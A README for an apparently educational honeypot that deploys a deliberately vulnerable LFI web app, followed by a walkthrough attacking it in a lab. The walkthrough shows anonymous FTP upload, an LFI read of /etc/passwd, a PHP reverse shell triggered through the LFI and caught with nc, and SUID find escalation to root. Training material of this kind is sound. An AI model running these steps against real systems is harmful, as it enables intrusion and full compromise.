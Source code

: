 # **NRT Blue Team Project - Honeypot**

<hr>

## **Introduction**
A script to mount a Local File Inclusion (LFI) vulnerability for the Honeypot.

<br>

## **Installation**
Please `clone` the git and run the `./setup.sh` script to set up the vulnerability ...

<br>

## **Exploitation**

Walkthrough of how to exploit the vulnerability.

#### **Enumeration**
We'll begin with a `nmap` scan.

```bash
$ sudo nmap -sS 192.168.12.10
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-14 13:36 AEST
Nmap scan report for 192.168.12.10
Host is up (0.00041s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:06:9F:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

There are three opened services, let's us start with `ftp`.

#### **FTP Enumeration**
To access the `ftp` file share, we utilize the `ftp` command with the credentials of `anonymous:anonymous`.

```bash
$ ftp 192.168.12.10
Connected to 192.168.12.10.
220 (vsFTPd 3.0.3)
Name (192.168.12.10:jaenguyen): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 ..
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 03:35 pub
226 Directory send OK.
```

Listing the share with `ls -al`, we discover a `pub` directory.

```bash
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 03:35 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 ..
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:35 pubf.txt
226 Directory send OK.
```

Navigating to the directory, there is a `pubf.txt` file.

From the `ftp` interactive shell, we run `get <file>` to download a file and `put <file>` to upload a file.

+ Download a file.

```bash
ftp> get pubf.txt
local: pubf.txt remote: pubf.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for pubf.txt (22 bytes).
226 Transfer complete.
22 bytes received in 0.00 secs (190.1272 kB/s)
```

Inspect the content of `pubf.txt`

```bash
$ cat pubf.txt 
/var/ftp/pub/pubf.txt
```

→ The `/var/ftp/pub/` directory seems to be an absolute location to the file `pubf.txt` ...  

+ Upload a random file.

```bash
ftp> put test
local: test remote: test
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:50 pubf.txt
-rw-------    1 ftp      ftp             0 Sep 14 03:52 test
226 Directory send OK.
```

The result indicates the `test` file has been successfully uploaded.

#### **HTTP Service**
Now, let's move on to enumerating the hidden directory with `gobuster`.

```bash
$ gobuster dir -u http://192.168.12.10 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.12.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/14 13:58:46 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://192.168.12.10/development/]
/assets               (Status: 301) [Size: 315] [--> http://192.168.12.10/assets/]     
/forms                (Status: 301) [Size: 314] [--> http://192.168.12.10/forms/]
```

We drop our attention toward the `/development` directory.

Navigate to the `/development/` →  Click on `ABOUT US`, we are redirected to a new `about-us` page.

We notice that the entry URL of the page is: `...?view=about-us.html`, which might be vulnerable to LFI.

To test our theory, we can use `curl`.

```bash
$ curl -s http://192.168.12.10/development/index.php\?view=../../../../../../../etc/passwd
[...]
<p>root:x:0:0:root:/root:/bin/bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
[...]
```

The output successfully returns the contents of the `passwd` file in the target system.


#### LFI → Remote Code Execution (RCE)
Recalling the `pubf.txt` file we discovered previously, let's us pull a reverse shell by following the below steps.

[1]. Upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) onto the `ftp` file share.

(Please change the `ip` and `port` to the ones of your local machine)

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
3460 bytes sent in 0.00 secs (11.9123 MB/s)
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 04:12 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:50 ..
-rw-------    1 ftp      ftp          3460 Sep 14 04:12 php-reverse-shell.php
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:50 pubf.txt
-rw-------    1 ftp      ftp             0 Sep 14 03:52 test
226 Directory send OK.
```

[2]. Trigger the shell.

+ On the first terminal, we set up `nc` listener.

```bash
$ sudo nc -nlvp <LocalPort>
```

+ On the second terminal, we call the shell as below.

```bash
$ curl -s 192.168.12.10/development/index.php?view=../../../../../../var/ftp/pub/php-reverse-shell.php
```

After the command is executed, our `nc` should catch the shell as `www-data`.

```bash
$ sudo nc -nlvp 80
Listening on 0.0.0.0 80
Connection received on 192.168.12.10 52806
Linux ubuntu-xenial 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:15:14 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Privilege Escalation

##### SUID Abuse
Local enumeration divulges a misconfigured `suid` binary that we can abuse to escalate your privilege.

```bash
$ find / -perm -u=s -ls 2>/dev/null
[...]
    24208    220 -rwsr-sr-x   1 root     root         221768 Feb  7  2016 /usr/bin/find
[...]
```

We continue executing ...

```bash
www-data@ubuntu-xenial:/$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.3# whoami
root
```

and successfully obtained the root shell.
